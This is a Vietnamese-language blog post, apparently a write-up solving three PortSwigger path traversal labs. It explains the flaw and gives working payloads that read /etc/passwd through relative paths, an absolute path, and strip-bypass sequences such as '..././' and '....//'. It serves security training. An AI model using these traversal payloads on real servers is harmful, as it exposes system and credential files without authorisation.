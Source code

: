 ```yaml
---
title: "[PortSwigger Lab] - Path Traversal"
description: Solution of Path Traversal on PortSwigger Lab
date: 2025-06-01 11:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, path traversal, directory traversal]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-01-portswigger-lab-path-traversal/path-traversal.png
    alt: Path Traversal
---
```


## Introduction
--- 

**Path traversal** còn được gọi là **Directory traversal**. Các lỗ hổng này cho phép kẻ tấn công đọc các tệp tùy ý trên máy chủ đang chạy một ứng dụng. Điều này có thể bao gồm:
- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

Trong một số trường hợp, kẻ tấn công có thể ghi vào các tệp tùy ý trên máy chủ, cho phép chúng sửa đổi dữ liệu hoặc hành vi ứng dụng và cuối cùng kiểm soát toàn bộ máy chủ.

## Solve Path Traversal Lab
---
- **Relative path:** `../../../etc/passwd`
- **Absolute path:** `/etc/passwd`
- **View images**: Filter settings > Filter bt MINE type > enable `images`
### Lab: File path traversal, simple case
- Mở 1 image bất kỳ
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=8.jpg
```

- Thay đổi đường dẫn của image
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=../../../etc/passwd
```

- Điều này khiến ứng dụng đọc từ đường dẫn tệp sau
```
/var/www/images/../../../etc/passwd
```

- Trình tự `../` có giá trị trong một **file path** và có nghĩa là để tăng một cấp trong cấu trúc thư mục. Ba chuỗi liên tiếp `..`:
    - Lần 1:
    ```
    /var/www/../../etc/passwd
    ```
    - Lần 2:
    ```
    /var/../etc/passwd
    ```
    - Lần 3:
    ```
    /etc/passwd
    ```

- Cuối cùng ứng dụng hiển thị nội dung của file `/etc/passwd`
- `/etc/passwd` là một tập tin hệ thống rất quan trọng trong các hệ điều hành **Unix**và **Linux**. Nó lưu trữ thông tin về user trên hệ thống. Dù tên là `"passwd" (password)`, nhưng mật khẩu thực tế không còn được lưu ở đây nữa mà được lưu trong tệp `/etc/shadow` với quyền truy cập hạn chế hơn.
- Truy cập **HTTP history** để xem nội dung

### File path traversal, traversal sequences blocked with absolute path bypass
- `../` đã bị block, cần bypass thông qua **absolute path**
- Mở 1 file ảnh bất kỳ trong tab mới
```
https://0a35004b0379e87d805eb796009c003b.web-security-academy.net/image?filename=33.jpg
```
- Thay đổi tên ảnh bằng **absolute path**: `/etc/passwd`
```
https://0a35004b0379e87d805eb796009c003b.web-security-academy.net/image?filename=/etc/passwd
```
- Truy cập **HTTP history** để xem nội dung

### File path traversal, traversal sequences stripped non-recursively
#### Analysis
Ở lab này, chương trình sẽ loại bỏ các **traversal sequences**, tức:
```
../../../etc/passwd
```
Sẽ trở thành
```
etc/passwd
```
Chương trình sẽ xóa tất cả `../` ra khỏi chuỗi

#### Exploit
Ý tưởng: vẫn để chương trình loại bỏ `../`, nhưng vẫn giữ được đường dẫn tương đối đến `/etc/passwd`
- Payload 1: ..././..././..././etc/passwd
- Payload 2: ....//....//....//etc/passwd
- Payload 3: ....\/....\/....\/etc/passwd

Sau khi chương trình đã loại bỏ `../` hoặc `..\` thì mọi thứ đểù trở thành `../../../etc/passwd`
> **Windows** sử dụng cả `../` và `..\`
{: .prompt-info}

- Thay đổi đường dẫn hình ảnh sử dụng các payload trên.
- Truy cập **HTTP history** để xem nội dung


---
Goodluck! 🍀🍀🍀
